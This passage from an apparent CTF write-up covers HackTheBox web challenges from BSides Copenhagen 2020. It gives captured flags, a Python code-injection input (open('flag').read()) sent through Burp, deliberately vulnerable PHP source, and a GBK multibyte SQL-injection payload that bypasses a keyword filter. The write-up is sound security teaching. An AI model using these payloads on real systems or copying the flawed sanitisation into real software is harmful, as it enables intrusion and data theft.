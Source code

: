``` flag: HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t} ```
We can see a _exec(recipe, garage)_ funcion, and it will asign to the 'ingredient' variable (what ever name we want) the result of 'measurement' (whatever we want). So we will place a name on 'ingredient' and **open('flag').read()** on the 'measurement' parameter. I'm using burp repeater for making the POST request with the parameters:

<p align="center">
  <img src="/images/writeups/BSides Copenhagen 2020/Web/baby interdimensional internet/2_post.png" width="700"/>
</p>

``` flag: HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3} ```
<br/>
## babysql

Let's find out [this](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string/12118602#12118602):

{% highlight php%}
<?php require 'config.php';

class db extends Connection {
    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

function sanitize($d, $s) {
    if (preg_match_all('/'. implode('|', array(
        'in', 'or', 'and', 'set', 'file',
    )). '/i', $s, $matches)) die(var_dump($matches[0]));
    return mysqli_real_escape_string($d->conn(), $s);
}

$db = new db();

if (isset($_POST['pass'])) {
    $pass = sanitize($db, $_POST['pass']);
    $db->query("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin');
} else {
    die(highlight_file(__FILE__,1));
} 
{% endhighlight %}
```
mysql_query('SET NAMES gbk');
\xbf\x27 O/**/R 1=1 /*

if (preg_match_all('/'. implode('|', array('in', 'or', 'and', 'set', 'file',)). '/i', $s, $matches)) die(var_dump($matches[0]));
    return mysqli_real_escape_string($d->conn(), $s);
$db->query("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin');
